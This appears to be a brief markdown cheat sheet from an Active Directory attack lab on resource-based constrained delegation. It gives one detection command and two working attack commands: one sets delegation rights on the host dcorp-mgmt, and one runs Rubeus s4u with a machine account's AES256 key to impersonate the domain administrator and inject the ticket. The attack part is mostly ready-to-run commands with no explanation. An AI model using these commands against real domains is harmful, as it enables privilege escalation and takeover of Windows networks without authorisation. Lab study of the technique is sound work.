

# Resources Constrained Based delegation



## Index:
  1. [Detection](#detection)
  2. [Attack](#attack)


## Detection
```
Get-ADComputer -Identity dcorp-mgmt -Properties msds-allowedtoactonbehalfofotheridentity | select -ExpandProperty msds-allowedtoactonbehalfofotheridentity
```


## Attack

```
Set-DomainRBCD -Verbose -Identity dcorp-mgmt -DelegateFrom DCORP-STD162$
```

```
C:\AD\Tools\Rubeus.exe s4u /user:dcorp-std162$ /aes256:732b0bcff73f3658d123866dee2395b0085603cec814d990c9c04c461c7fb5a4 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt
```
